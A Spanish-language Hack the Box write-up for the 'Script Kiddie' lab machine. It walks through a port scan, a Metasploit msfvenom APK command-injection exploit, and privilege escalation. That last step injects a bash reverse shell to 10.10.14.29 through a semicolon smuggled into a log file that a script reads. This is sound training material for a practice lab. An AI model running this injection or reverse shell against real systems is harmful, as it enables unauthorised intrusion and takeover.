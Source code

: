 ```yaml
---
description: >-
  G4l1l30 write-up on the easy-difficulty Linux machine Script Kiddie from
  https://hackthebox.eu
title: Hack the Box - Script Kiddie Writeup
date: 2021-05-22 10:40:00 -0600
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, redteam, Linux, msfvenom, nmap, pivoting, msfconsole ]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/Linux/easy/Script Kiddie/InfoCard-ScriptKiddie.png
---
```


# Summary

Script Kiddie es una maquina bastante sencilla, el usuario es pensar un poco fuera de la caja. La parte del root es analizar un script sh, inyectar codigo  para escalar hacia otra cuenta y de ahi con privilegios de sudo obtener una shell de root, esta maquina en si no tiene complejidad.



## Info de la maquina

| VM column  | Detalles      |
| ---------- | ------------- |
| Nombre     | Script Kiddie |
| Dificultad | Easy          |
| Release    | 06/02/2021    |
| OS         | Linux         |
| IP         | 10.10.10.226  |

Editamos ***/etc/hosts***  y agregamos la IP **10.10.10.226** que apunte hacia **scriptkiddie.htb** 

# Escaneo de Puertos

Escaneamos los puertos con Masscan y Nmap, utilizando **Masscan_To_Nmap** , esta herramienta escanea puertos TCP y UDP, toma los abiertos y ejecuta Nmap en búsqueda de servicios y scripts por default, mas info y donde conseguir el script: 

* > [https://github.com/Purp1eW0lf/Masscan_to_Nmap](masscan_to_nmap.py)

Ejecutamos el script : ``sudo python3 masscan_to_nmap.py -i 10.10.10.226`` 

![masscan_01](/assets/img/Linux/easy/Script Kiddie/masscan_01.png)

Tenemos los siguientes dos puertos : **5000** y **22** , el resultado de Nmap nos arroja lo siguiente:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```



# Super H4x0r

Procedemos a verificar el puerto **5000**

![h4x0r](/assets/img/Linux/easy/Script Kiddie/h4x0r.png)

Un h4x0r WebSite xD, a simple vista tenemos tres(3) herramientas : **nmap** , **msfvenom** y **searchsploit** 

1) Nmap : 

![h4x0r](/assets/img/Linux/easy/Script Kiddie/h4x0r.png)

No se le puede sacar mas provecho.

2) Searchsploit : 

<img src="/assets/img/Linux/easy/Script Kiddie/h4x0r_02.png" alt="h4x0r_02" style="zoom:75%;" />

3) Msfvenom y why not, usaremos el mismo searchsploit para buscar algo al respecto: 

![h4x0r_03](/assets/img/Linux/easy/Script Kiddie/h4x0r_03.png)

Encontramos algo interesante, usaremos ese exploit.

![msf01](/assets/img/Linux/easy/Script Kiddie/msf01.png)

# User 

``exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`` 



![msf02](/assets/img/Linux/easy/Script Kiddie/msf02.png)



Esto nos va a generar un archivo **.apk** 

![msf03](/assets/img/Linux/easy/Script Kiddie/msf03.png)

![msf04](/assets/img/Linux/easy/Script Kiddie/msf04.png)



Ponemos netcat a la escucha y : 

![msf05](/assets/img/Linux/easy/Script Kiddie/msf05.png)

Le hacemos un upgrade a nuestra shell: 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![kid_user](/assets/img/Linux/easy/Script Kiddie/kid_user.png)

Ya tenemos el 1er flag :) 



# Root

No hay mucho que hacer, no hay privilegios con sudo, no hay archivos con lo que podamos interactuar, nada interesante en el crontab o en los procesos, asi que hacemos algo de enum basico y nos movemo hacia el otro usuario **pwn** : ``/home/pwn`` veremos un script sh :

![kid_02](/assets/img/Linux/easy/Script Kiddie/kid_02.png)

Mientras se cumpla la condicion , ejecuta la sentencia de nmap y lo escribe en **hackers** , dado que el script es del usuario **pwn** :

![pwn](/assets/img/Linux/easy/Script Kiddie/pwn.png)

Intentaremos meter codigo para obtener un rev shell: 

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.29/4445 0>&1' #" >> hackers
```

![pwn_01](/assets/img/Linux/easy/Script Kiddie/pwn_01.png)

![pwn_02](/assets/img/Linux/easy/Script Kiddie/pwn_02.png)

Verificamos los privilegios de sudo :

 

![root_01](/assets/img/Linux/easy/Script Kiddie/root_01.png)

Procedemos : 

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

![root_02](/assets/img/Linux/easy/Script Kiddie/root_02.png)

:) 

![root_03](/assets/img/Linux/easy/Script Kiddie/root_03.png)

Una maquina bastante sencilla, con esto finalizamos el writeup.

![gali](/assets/img/Linux/easy/Script Kiddie/gali.png)

